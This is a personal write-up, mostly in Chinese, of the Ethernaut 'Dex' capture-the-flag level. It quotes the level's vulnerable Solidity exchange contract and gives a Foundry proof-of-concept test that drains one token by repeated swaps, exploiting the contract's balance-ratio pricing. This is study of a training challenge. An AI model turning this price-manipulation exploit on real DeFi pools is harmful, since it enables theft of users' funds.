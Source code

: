 > The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation.
>
> You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.
>
> You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
>
>  
>
> ### Quick note
>
> Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.
>
>  Things that might help:
>
> - How is the price of the token calculated?
> - How does the `swap` method work?
> - How do you `approve` a transaction of an ERC20?
> - Theres more than one way to interact with a contract!
> - Remix might help
> - What does "At Address" do?



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```



```
https://medium.com/@this_post/ethernaut-22-dex-modified-version-writeups-4330c33a0743
```



这其实就是一个有趣的现象：

![image-20250309191619624](./DEX/images/image-20250309191619624.png)



good. FInance学少了 :)



但自己打的时候交易失败，不知道为什么。。。隔天再试）



2025年3月28日 UPD.

学着用foundry写poc。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "openzeppelin-contracts/contracts/access/Ownable.sol";
import {Test, console} from "forge-std/Test.sol";
import "../src/Dex.sol";

contract DexEXP is Test {
    address user = address(0x123);
    address token1;
    address token2;
    Dex dex;

    function setUp() public {
        dex = new Dex();
        SwappableToken token1Contract = new SwappableToken(
            address(dex), 
            "Token1", 
            "TKN1", 
            10000
        );
        SwappableToken token2Contract = new SwappableToken(
            address(dex), 
            "Token2", 
            "TKN2", 
            10000
        );
        token1 = address(token1Contract);
        token2 = address(token2Contract);

        token1Contract.transfer(user, 10);
        token2Contract.transfer(user, 10);

        token1Contract.transfer(address(dex), 100);
        token2Contract.transfer(address(dex), 100);

        dex.setTokens(token1, token2);

        // 通过 Dex 为 user 授权
        vm.prank(user);
        dex.approve(address(dex), type(uint256).max);
    }

    function showBalances() public view {
        console.log("=========================================================");
        console.log("User token1 balance:", IERC20(token1).balanceOf(user));
        console.log("User token2 balance:", IERC20(token2).balanceOf(user));
        console.log("Dex token1 balance:", IERC20(token1).balanceOf(address(dex)));
        console.log("Dex token2 balance:", IERC20(token2).balanceOf(address(dex)));
    }

    function test_Swap() public {
        vm.startPrank(user);
        showBalances();

        while (IERC20(token1).balanceOf(address(dex)) > 0 && IERC20(token2).balanceOf(address(dex)) > 0) {
            uint256 userToken1Balance = IERC20(token1).balanceOf(user);
            uint256 userToken2Balance = IERC20(token2).balanceOf(user);
            uint256 dexToken1Balance = IERC20(token1).balanceOf(address(dex));
            uint256 dexToken2Balance = IERC20(token2).balanceOf(address(dex));

            // Swap token1 -> token2
            if (userToken1Balance > 0) {
                uint256 swapAmount = userToken1Balance;
                uint256 expectedToken2 = dex.getSwapPrice(token1, token2, swapAmount);
                if (expectedToken2 > dexToken2Balance) {
                    // 调整输入量，确保不超过 Dex 的 token2 余额
                    swapAmount = (dexToken2Balance * dexToken1Balance) / dexToken2Balance;
                    if (swapAmount > userToken1Balance) break;
                }
                if(swapAmount > 0){
                    dex.swap(token1, token2, swapAmount);
                    showBalances();
                }
            }

            // Swap token2 -> token1
            if (userToken2Balance > 0) {
                uint256 swapAmount = userToken2Balance;
                uint256 expectedToken1 = dex.getSwapPrice(token2, token1, swapAmount);
                if (expectedToken1 > dexToken1Balance) {
                    // 调整输入量，确保不超过 Dex 的 token1 余额
                    swapAmount = (dexToken1Balance * dexToken2Balance) / dexToken1Balance;
                    if (swapAmount > userToken2Balance) break;
                }
                if(swapAmount > 0){
                    dex.swap(token2, token1, swapAmount);
                    showBalances();
                }
            }
        }

        dex.swap(token2,token1,14);
        showBalances();
        uint256 dexToken1Final = IERC20(token1).balanceOf(address(dex));
        uint256 dexToken2Final = IERC20(token2).balanceOf(address(dex));
        assert(dexToken1Final == 0 || dexToken2Final == 0);
        console.log("[+] Solved!");

        vm.stopPrank();
    }

    function test_Nonsense() public {
        console.log("[+] test_Nonsense ... ");
    }
}
```

![image-20250328112858886](./DEX/images/image-20250328112858886.png)